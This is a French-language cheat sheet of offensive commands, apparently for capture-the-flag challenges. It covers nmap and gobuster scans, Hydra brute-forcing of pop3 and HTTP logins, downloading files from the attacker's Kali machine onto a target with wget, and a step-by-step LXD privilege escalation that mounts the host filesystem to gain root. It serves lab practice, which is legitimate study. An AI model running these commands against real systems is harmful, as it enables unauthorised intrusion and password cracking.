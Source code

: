 ```yaml
---
description: Outils utilisés dans la résolution des challenges.
---
```


# Outils

## nmap

```shell-session
nmap $IP -A -p- -oN nmap.txt -T4
```

## gobuster

```shell-session
gobuster dir -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x ".php,.html,.txt,.zip" -u $IP -t50
```

```
gobuster dir -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x ".php,.html,.txt,.zip" -u http://$IP:8080 -t50 -U <user> -P <password>
```



## Hydra

* Hydra pour pop3

```
hydra -l <user>  -P /usr/share/wordlists/rockyou.txt pop3://$IP -s <port> -t 64
```

ou

```
hydra -l <user>  -P /usr/share/wordlists/fasttrack.txt pop3://$IP -s <port> -t 64 
```

* Hydra pour http-get

```
hydra -l <user> -P /usr/share/wordlists/rockyou.txt $IP -s <port> http-get
```

## Transfert de fichiers

Pour transférer des fichiers depuis la machine Kali vers la machine cible:

1. sur la machine Kali
   1. aller dans le répertoire contenant les fichiers à transférer
   2. `python3 -m http.server`
2. sur la machine cible
   1. aller dans le répertoire /dev/shm
   2. `wget < kali tun0 IP>:8000/fichier.à.transférer`
   3. rendre les fichiers exécutables avec `chmod +x`

## Privilege Escalation

Voici la méthode générique que j'utilise pour trouver les possibilités de 'privilege escalation'. Cette méthode est en partie basée sur l'article Linux [Privilege Escalation: Automated Script](https://www.hackingarticles.in/linux-privilege-escalation-automated-script/).

1. sudo -l
2. [suid3num.py](https://github.com/Anon-Exploiter/SUID3NUM/tree/master)
3. [les.sh](https://github.com/The-Z-Labs/linux-exploit-suggester)
4. [linpeas.sh](https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS)

## Consolidation d'un Shell

```shell
python3 -c 'import pty; pty.spawn("/bin/bash")'
ctrl Z
stty raw -echo; fg
export TERM=xterm  
(stty cols 132 rows 34)
```

## Escalade de privilèges via LXD

Basé sur cet article: [LXC/LXD (Linux Container/Daemon) Privilege Escalation](https://exploit-notes.hdks.org/exploit/linux/container/lxc-lxd-privilege-escalation/)

Vérifiez que l'utilisateur sur la machine cible fait partie du groupe lxd

```shell
id
uid=33(www-data) gid=33(www-data) groups=33(www-data),115(lxd)
```

### Sur la machine Kali

Préparez un conteneur linux et lancer un serveur http

```
git clone  https://github.com/saghul/lxd-alpine-builder.git
cd lxd-alpine-builder
sudo ./build-alpine
python3 -m http.server 8000
```

### Sur la machine cible

Téléchargez le fichier \<alpine tar.gz> et importez-le comme image dans LXC

```
cd /dev/shm
wget http://<local-ip>:8000/<alpine tar.gz>
lxc image import ./<alpine tar.gz> --alias myimage
lxc image list
```

Créez un nouveau conteneur '**mycontainer**' basé sur l'image '**myimage**' qui vient d'être importée.

```
lxc init myimage mycontainer -c security.privileged=true
```

En cas de message **“**&#x4E;o storage pool found. Please create a new storage poo&#x6C;**.”** initialisez LXD d'abord et relancez la commande.

```
lxd init
```

Montez (mount) le répertoire principal / dans le répertoire /mnt/root du conteneur 'mycontainer' que vous venez de créer

```
lxc config device add mycontainer mydevice disk source=/ path=/mnt/root recursive=true
```

Démarrez votre conteneur

```
lxc start mycontainer
```

Lancez un Shell (note: l'image Alpine ne supporte qu'un shell sh)

```
lxc exec mycontainer /bin/sh
```

Vérifiez que vous êtes bien root

```
whoami
```

Rendez-vous dans le répertoire principal de la machine cible monté en /mnt/root et accédez en tant que root à toutes les données de la machine

```
cd /mnt/root

```
